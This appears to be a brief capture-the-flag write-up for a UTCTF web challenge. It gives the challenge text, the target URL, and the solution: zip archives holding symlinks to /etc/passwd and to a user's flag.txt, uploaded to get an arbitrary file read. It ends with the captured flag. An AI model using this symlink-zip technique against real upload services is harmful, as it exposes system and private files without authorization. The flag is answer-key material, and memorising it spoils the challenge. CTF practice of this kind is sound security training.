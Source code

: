 Hey, my digital cat managed to get into my server and I can't get him out.
The only thing running on the server is a website a colleague of mine made.
Can you find a way to use the website to check if my cat's okay? He'll likely be in the user's home directory.
You'll know he's fine if you find a "flag.txt" file.
By helix (@helix_shift on discord)

http://betta.utctf.live:5422

ln -s /etc/passwd f
zip --symlinks etcpasswd.zip f

ln -s /home/copenhagen/flag.txt flag
zip --symlinks flag.zip flag


https://systemweakness.com/arbitrary-file-read-via-symbolic-links-f794e6fd2c2b

utflag{No_Observable_Cats_Were_Harmed}